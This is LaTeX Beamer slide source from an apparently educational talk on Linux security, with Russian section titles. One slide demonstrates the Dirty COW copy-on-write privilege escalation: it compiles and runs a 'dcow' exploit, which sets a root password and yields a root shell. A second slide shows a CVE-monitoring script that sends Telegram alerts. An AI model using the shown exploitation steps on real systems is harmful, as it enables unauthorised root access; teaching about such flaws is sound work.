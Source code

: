 \begin{frame}
\frametitle{\insertsection}
\framesubtitle{<<Dirty COW>> (Copy-on-write)}

{\small \texttt{\$ id \\
{\color{green} uid=1000(dcow)} gid=1000(dcow) groups=1000(dcow)
}}

\vspace{\baselineskip}

{\small \texttt{\$ g++ dcow.cpp -std=c++11 -pthread -lutil -o dcow \\
\$ ./dcow \\
Running ... \\
Received su prompt (Password: ) \\
Root password is: dirtyCowFun \\
Enjoy! :-)}}

\vspace{\baselineskip}

{\small \texttt{\$ su root \\
Password: dirtyCowFun \\
\# id \\
{\color{red} uid=0(root)} gid=0(root) groups=0(root)
}}
\end{frame}


\section{Мониторгинг уязвимостей}

\begin{frame}
\frametitle{\insertsection}
\framesubtitle{https://github.com/Amet13/vulncontrol}

{\scriptsize \texttt{\$ ./vulncontrol.py −d 2017−02−18 −m 5 -t \$TOKEN:\$ID \\
CVE−2017−6074 9.3 http://www.cvedetails.com/cve/CVE−2017−6074/ \\
CVE−2017−6001 7.6 http://www.cvedetails.com/cve/CVE−2017−6001/ \\
CVE−2017−5986 7.1 http://www.cvedetails.com/cve/CVE−2017−5986/ \\
Telegram alert sent
}}

\begin{figure}
    \center
    \texttt{[image: tscreen]}
\end{figure}
\end{frame}


